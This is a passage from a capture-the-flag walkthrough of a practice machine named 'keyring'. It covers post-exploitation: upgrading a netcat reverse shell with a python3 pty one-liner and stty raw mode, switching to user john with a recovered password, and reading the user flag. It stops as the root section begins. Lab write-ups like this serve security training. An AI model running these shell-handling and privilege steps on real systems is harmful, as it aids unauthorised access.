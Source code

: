 We will need to upgrade our shell, which can be done with `python3`.

```
$ python3 -c 'import pty;pty.spawn("/bin/bash");'
python3 -c 'import pty;pty.spawn("/bin/bash");'
www-data@keyring:/var/www/html$
```

The we need to upgrade to a full `tty` by backgrounding the task with `ctrl-z`, executing `stty raw -echo`, then returning the shell to the `fg` and pressing enter twice, then `export TERM=screen`.

```
www-data@keyring:/var/www/html$ ^Z
[1]+  Stopped                 nc -lvnp 9001
kali@kali ~
❯ stty raw -echo
kali@kali ~
nc -lvnp 9001

www-data@keyring:/var/www/html$ export TERM=screen
```

Trying to browse to `john`'s home directory is met with `permission denied`.

```
www-data@keyring:/var/www/html$ ls /home
john
www-data@keyring:/var/www/html$ cd /home/john
bash: cd: /home/john: Permission denied
```

We can try to `su` to `john`, as we do have a possible password that was recovered from earlier.

```
www-data@keyring:/var/www/html$ su - john
Password: 
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

john@keyring:~$
```

Now that we are the `john` user, we can finally grab the `user.txt`.

```
john@keyring:~$ cd; cat user.txt 

[ Keyring - User Owned ]
----------------------------------------------
Flag : VEhNe0Jhc2hfMXNfRnVuXzM4MzEzNDJ9Cg==
----------------------------------------------
by infosecarticles with <3
```

## Root

We quickly check if we can run `sudo` on the machine, but we can not.
